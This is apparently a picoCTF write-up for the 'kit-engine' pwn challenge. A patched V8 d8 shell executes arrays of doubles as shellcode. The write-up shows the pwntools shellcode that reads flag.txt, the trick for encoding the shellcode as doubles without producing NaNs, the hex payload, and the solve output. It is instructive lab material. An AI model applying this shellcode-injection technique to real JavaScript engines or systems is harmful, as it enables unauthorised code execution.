 # kit-engine

Shellcode

## Download the Binary

The executable has some size to it (146Mb), so it won't be included in the repo. You can download it [here](https://mercury.picoctf.net/static/57bf78fb7f9fd6e29e72762cc8460f70/d8). 

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/kit-engine/d8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

None of this really matters because the patched (by the challenge creators) d8 shell literally will run our shellcode for us. 

## Overview of Binary

V8 is Google's own JavaScript (and WebAssembly) engine that is used in Chrome, and d8 is V8's own developer shell (and JS interpreter). A quick introduction to d8 is accessible [here](https://v8.dev/docs/d8). 

In this challenge, a patch is applied to the source code of the d8 shell which provides 2 helpful functions in the global template of the intepreted JS script - `AssembleEngine` and `Breakpoint`. 

While the exact details of implementation are available in the [patch file](./source/patch), concisely, 
- `AssembleEngine()` accepts exactly 1 argument, an array of doubles, of which each is interpreted as an unsigned 64-bit long int to be written into an `mmap`-ed piece of memory which is then executed as shellcode. 
- `Breakpoint()` requires no arguments. It simply contains an `int3` interrupt instruction that occurs when the function is called in the interpreted JS so that a debugger can be used to step through subsequent instructions. 

The reason why the API for `AssemblyEngine()` is an array of doubles is probably so that
1. we no longer have to worry about special characters causing issues (the handling of which would be specific to the JS spec/version and/or the interpreter in d8), and to
2. make the challenge harder (`AssembleEngine` could have accepted unsigned 64-bit ints and it would probably still work)

To illustrate `AssemblyEngine()`, consider the following single-line script in a `test.js` file which we run with d8 using the command `./d8 test.js`

```js 
AssembleEngine([1.1, 1.1])
```

The output is

```c
Memory Dump. Watch your endianness!!:
0: float 1.100000 hex 3ff199999999999a
1: float 1.100000 hex 3ff199999999999a
Starting your engine!!
Received signal 4 ILL_ILLOPN 7f370ee0e000

==== C stack trace ===============================

 [0x557e1fc4ecd7]
 [0x7f370ead9520]
 [0x7f370ee0e000]
[end of stack trace]
Illegal instruction
```

## Finding the original `src/d8/d8.cc` and `src/d8/d8.h` (Not required)

> This is not necessary, but I did this because I thought the patch would expose a vulnerability (instead of directly being the solution) in the d8 binary that would only be able to be found by looking through the source code. 

We first have to `git clone` the repo from https://github.com/v8/v8 before we can begin digging for the files. 

The first few lines of `patch` reveal part of the hash of the blob of the unmodified d8.cc file. 

```
diff --git a/src/d8/d8.cc b/src/d8/d8.cc
index e6fb20d152..35195b9261 100644
--- a/src/d8/d8.cc
+++ b/src/d8/d8.cc
```

We can then use git's `cat-file` functionality to dump the file out, where the `-p` option instructs `cat-file` to figure the type of content before dumping it. 

```bash
git cat-file -p e6fb20d152 > ../original_d8.cc
```

Similar steps can be performed to obtain the pre-patched `d8.h` file. 

## Spawn a shell?

Notice the following lines in [server.py](./server.py). 

```python
with tempfile.NamedTemporaryFile(buffering=0) as f:
    f.write(script_contents.encode("utf-8"))
    p("File written. Running. Timeout is 20s")
    res = subprocess.run(["./d8", f.name], timeout=20, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    p("Run Complete")
    p(f"Stdout {res.stdout}")
    p(f"Stderr {res.stderr}")
```

`server.py` isn't going to let us interact with our process, so we can't just use the shellcode `pwnlib.shellcraft.amd64.linux.sh` to spawn a local shell and try to type in "cat flag.txt" as is typically done in for most Pwn challenges. 

Instead, we use pwntool's `pwnlib.shellcraft.amd64.linux.cat` to cat the flag, which uses an `open` and a `sendfile` syscall to send the contents of the fd (file descriptor) returned by `open` to stdout (fd 1). 

> Side note: We could spawn bind shell / reverse shell and remotely interact with the shell within the 20s timeout, but that's (in my opinion) over-complicating this challenge. 

## Payload

The shellcode is crafted with provisions made to
1. pad the payload with nops to the 8-byte boundary for easy conversion into doubles, and
2. change `ffffff7f` to `01010101` so that none of the doubles become NaNs (see the [IEEE 754 FP standard](https://en.wikipedia.org/wiki/IEEE_754#Special_values) for the interpretation when the exponent portion is all 1s or all 0s). 

Shellcode construction is shown below, and the rest of the solve script can be accessed at [solve.py](./solve.py). 

```python
# Construct bytecode to cat flag.txt
payload_asm = shellcraft.amd64.linux.cat('flag.txt', 1)

# Change the no. of bytes to be sent in the sendfile syscall from 0x7fffffff to 0x01010101 so that the double doesn't become a NaN
payload_asm = payload_asm.replace('0x7fffffff', '0x01010101')
payload_bytes = asm(payload_asm)

# Pad the end of payload_bytes with nops up till the 8-byte boundary (since doubles are 8-bytes long)
padding = (8 - len(payload_bytes)%8) * asm(pwnlib.shellcraft.amd64.nop())
payload_bytes += padding
```

## Flag

```bash
[*] payload_bytes.hex()='6a01fe0c2448b8666c61672e747874506a02584889e731f60f0541ba010101014889c66a28586a015f990f0590909090'
[*] 48
[*] payload_js='AssembleEngine([6.603257119849832e+186, 3.792519361765274e+79, -2.2023024389345214e+261, 7.748609217167448e-304, 7.683199690136903e-302, -6.82852360667106e-229])'
[+] Opening connection to mercury.picoctf.net on port 17805: Done
[*] Switching to interactive mode

AssembleEngine([6.603257119849832e+186, 3.792519361765274e+79, -2.2023024389345214e+261, 7.748609217167448e-304, 7.683199690136903e-302, -6.82852360667106e-229])
File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{vr00m_vr00m_ ca5a2f612129286}\n'
Stderr b'Received signal 11 SEGV_MAPERR 000000000026\n\n==== C stack trace ===============================\n\n [0x55a17e3f1cd7]\n [0x7f738eca3980]\n [0x7f738f0d8030]\n[end of stack trace]\n'
```

The SEGV_MAPERR is due to the shellcode not returning after it concludes its syscalls (at least that's what I got when running it locally) - the CPU attempts to decode the uninitialized data after the shellcode as instructions, which causes problems. 